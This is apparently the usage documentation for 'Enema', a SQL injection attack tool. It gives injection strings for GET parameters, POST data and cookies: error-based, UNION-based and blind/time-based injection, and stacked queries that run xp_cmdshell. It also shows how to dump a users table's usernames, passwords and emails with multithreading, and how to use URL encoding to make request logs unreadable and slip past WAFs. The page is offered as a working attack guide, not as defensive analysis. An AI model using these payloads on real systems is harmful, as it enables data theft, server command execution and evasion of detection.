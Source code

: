 [#SQL\_injection\_in\_GET\_requests](#SQL_injection_in_GET_requests.md)

[#SQL\_injection\_in\_POST\_requests,\_Headers](#SQL_injection_in_POST_requests,_Headers.md)

[#Blind\_injection](#Blind_injection.md)

[#Methods\_of\_db\_structure\_tab](#Methods_of_db_structure_tab.md)

[#Dump\_tab](#Dump_tab.md)

[#Useful\_functions](#Useful_functions.md)


---

### SQL injection in GET requests ###

---

For example vulnerable script:
```

http://site.com/vuln.aspx?id=1'
```
Response:
```

Unclosed quotation mark after the character string '1'`
```

If injection type is Error-based then ready for injection string using Enema will be:
```

http://site.com/vuln.aspx?id=1' and 1=[sub]--
```

For UNION-based sql injections you can use this url:
```

http://site.com/vuln.aspx?id=1' union all select null,null,[sub],null--
```

**`[sub]`** keyword indicates where inject SQL Substring.

If database rights - sysadmin, you can use this urls:
```

http://site.com/vuln.aspx?id=1' and 1=[sub];[cmd]--
```

**`[cmd]`** keywords indicates where inject xp\_cmdshell  and other stacked queries.

In this example `[sub]` used too. It needs for fetching xp\_cmdshell output.

Also you can use only `[cmd]` if you not interested in results or not output not available.


---

### Blind injection ###

---


**`[blind]`** keyword indicates where insert blind query.

When this keyword found in url, post data or cookies - enema enables options for blind attack in Query Tab.

For time-based injection you can define custom delay. Then run test and look for normal and delayed responses (lag checking).

If server lagging you can play with 'Max lag time' and 'Delay' options.


---

### SQL injection in POST requests, Headers ###

---


All the same, with a little correction.
For example vulnerable script:
```

http://site.com/login.aspx
Post data: _username=admin'&password=test123
```
```

Unclosed quotation mark after the character string 'admin'`
```

1. Put _http://site.com/login.aspx_ to URL.

2. Select method = _POST_.

Post data should be:
```

username=' and 1[eq][sub]--&password=test123
```

**`[eq]`** keyword means equal symbol - "=".

**This is important. Use `[eq]` instead of "=" in defined POST data or Cookies, and use**"%3b"**instead of ";" in defined Cookie header.**

For example Cookie string:
```

session=12345; uid=32321; cartid=' and 1[eq][sub]%3b[cmd]--; reffid=005541
```

If variable `[sub]` or `[cmd]` found in cookies, then Enema perceives attack as injection in cookies.


---

### Methods of db structure tab ###

---


**Tables** - fetch tables from current database.

**Columns** - fetch columns from tables in right field. (Drag and drop table or tables from left field to right.)

**Bases** - fetch basesfrom current database.

  * Supported fetching methods:
    1. not in(`[array]`)
    1. not in(`[substring]`) - multithreaded
    1. by ordinal\_position - multithreaded
    1. LIMIT - multithreaded

Field "Match pattern" for exclusive cases only.
Enema parsing sql data between "Match symbols", default match symbol is "~"

---

### Dump tab ###

---


**Table** - table for dump

**Columns** - columns for dump. Can be separated by ";".

**Primary key** - index number, something like CustomerID, or you can create your own table and insert data for dump.
e.g.
```

create table tmptbl (num int identity, sqldata varchar(8000) NULL, primary key (num)); insert into tmptbl select username + "|" + password + "|" + email from users
```

**From** and **To** - dump from position to position. (integer)

Dumper multithreaded. I successfuly tested it up to 50 threads. Your threads depend on your bandwidth speed :)

**Important**: `Dumper starts thread pool for each column. It means if you defined 10 threads and dumping table with 3 columns, dumper will start 30 threads.`


---

### Useful functions ###

---

`[urlenc]` (for GET method). Full urlencode all between `[urlenc^ ... ^]`

This makes http request logs unreadable and bypassing some url filters / WAFs.

Example:
```

http://www.site.com/index.asp?id=23[urlenc^ or 1=[sub]--^]
```